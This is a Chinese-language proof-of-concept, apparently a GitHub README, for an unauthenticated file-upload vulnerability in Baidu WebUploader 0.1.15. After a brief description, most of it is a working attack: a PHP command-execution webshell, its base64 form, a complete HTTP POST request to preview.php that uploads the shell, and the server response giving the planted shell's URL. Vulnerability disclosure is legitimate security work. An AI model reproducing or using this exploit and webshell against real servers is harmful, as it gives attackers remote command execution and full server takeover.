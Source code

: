 # webuploader-v-0.1.15 组件存在文件上传漏洞(未授权)

#### 简介：百度WebUploader组件存在文件上传漏洞。该漏洞是由于WebUploader组件上传页面对文件类型或文件扩展名过滤不严所致，攻击者可利用漏洞直接上传或简单绕过限制上传脚本文件，执行系统命令，获取网站服务器权限。


#### php_webshell

```
<?php
    if(isset($_REQUEST['cmd'])){
            echo "<pre>";
            $cmd = ($_REQUEST['cmd']);
            system($cmd);
            echo "</pre>";
            die;
    }
    phpinfo();
?>
```

#### base64 encode

```
PD9waHANCiAgICBpZihpc3NldCgkX1JFUVVFU1RbJ2NtZCddKSl7DQogICAgICAgICAgICBlY2hvICI8cHJlPiI7DQogICAgICAgICAgICAkY21kID0gKCRfUkVRVUVTVFsnY21kJ10pOw0KICAgICAgICAgICAgc3lzdGVtKCRjbWQpOw0KICAgICAgICAgICAgZWNobyAiPC9wcmU+IjsNCiAgICAgICAgICAgIGRpZTsNCiAgICB9DQogICAgcGhwaW5mbygpOw0KPz4=
```

## 0x01 POST upload php webshell

`http://192.168.2.18/webuploader-0.1.15-Demo/server/preview.php`

#### BurpSuite Requests
```
POST /webuploader-0.1.15-Demo/server/preview.php HTTP/1.1
Host: 192.168.2.18
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 298
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

data:image/php;base64,PD9waHANCiAgICBpZihpc3NldCgkX1JFUVVFU1RbJ2NtZCddKSl7DQogICAgICAgICAgICBlY2hvICI8cHJlPiI7DQogICAgICAgICAgICAkY21kID0gKCRfUkVRVUVTVFsnY21kJ10pOw0KICAgICAgICAgICAgc3lzdGVtKCRjbWQpOw0KICAgICAgICAgICAgZWNobyAiPC9wcmU+IjsNCiAgICAgICAgICAgIGRpZTsNCiAgICB9DQogICAgcGhwaW5mbygpOw0KPz4=

```
#### BurpSuite Response
```
HTTP/1.1 200 OK
Date: Fri, 06 Sep 2019 05:40:48 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a
X-Powered-By: PHP/5.5.9
Connection: close
Content-Type: text/html
Content-Length: 142

{"jsonrpc" : "2.0", "result" : "http://192.168.2.18/webuploader-0.1.15-Demo/server/preview/fe8db86134e6505da6f3c4a112b0bad7.php", "id" : "id"}
```

#### webshell
`http://192.168.2.18/webuploader-0.1.15-Demo/server/preview/fe8db86134e6505da6f3c4a112b0bad7.php`

![](./phpinfo.jpg)
![](./cmd.jpg)

